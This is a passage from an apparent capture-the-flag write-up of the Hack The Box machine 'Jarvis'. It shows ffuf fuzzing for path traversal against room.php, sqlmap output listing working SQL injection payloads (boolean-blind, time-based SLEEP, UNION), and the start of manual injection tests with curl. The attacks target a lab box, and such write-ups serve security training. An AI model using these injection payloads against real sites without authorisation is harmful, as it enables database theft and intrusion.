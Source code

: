 ## TCP/80 (HTTP) - GET parameter enumeration
1. Tried to use default creds to login to `phpmyadmin` panel, failed
2. Found something interesting after browsing the source code of `jarvis.htb`
	```
	room.php?cod=1
	```
	![]({{ page.img_path }}Pasted%20image%2020220914174044.png)
	- Vulnerable to LFI/SQLi?
3. Enumerate `GET` parameter `?cod=1` for LFI, failed
	```
	┌──(root💀kali)-[~/htb/jarvis/10.10.10.143/exploit]
	└─# ffuf -u http://10.10.10.143/room.php?cod=../../../../../FUZZ -w /usr/share/wordlists/LFI/file_inclusion_linux.txt  -fw 308
	
	┌──(root💀kali)-[~/htb/jarvis/10.10.10.143/exploit]
	└─# ffuf -u http://10.10.10.143/room.php?cod=1../../../../../FUZZ -w /usr/share/wordlists/LFI/file_inclusion_linux.txt  -fw 308
	
	:: Progress: [2249/2249] :: Job [1/1] :: 728 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
	```
4. Enumerate `GET` parameter `?cod=1` for SQLi w/ `sqlmap`, success!
	```
	┌──(root💀kali)-[~/htb/jarvis/10.10.10.143/exploit]
	└─# sqlmap -r sqli.txt -p cod --batch
	
	Parameter: cod (GET)
	    Type: boolean-based blind
	    Title: AND boolean-based blind - WHERE or HAVING clause
	    Payload: cod=1 AND 6949=6949
	
	    Type: time-based blind
	    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
	    Payload: cod=1 AND (SELECT 4379 FROM (SELECT(SLEEP(5)))EdRY)
	
	    Type: UNION query
	    Title: Generic UNION query (NULL) - 7 columns
	    Payload: cod=-6596 UNION ALL SELECT CONCAT(0x71626b7871,0x556466584f47547078516c617275656c676b6f704d757175784e4868546a724d694f427061467451,0x71786b7171),NULL,NULL,NULL,NULL,NULL,NULL-- -
	```



## TCP/80 (HTTP) - Manual SQLi 
1. Testing how `room.php` reacts to SQLi
	```
	--------------------------------Payload------------------------------------
	# Payload 1 
	1'
	┌──(root💀kali)-[~/htb/jarvis/10.10.10.143/loot]
	└─# curl -s "jarvis.htb/room.php?cod=1'" | grep -oP "room\.php\?cod\=\d"
	Nothing displayed
	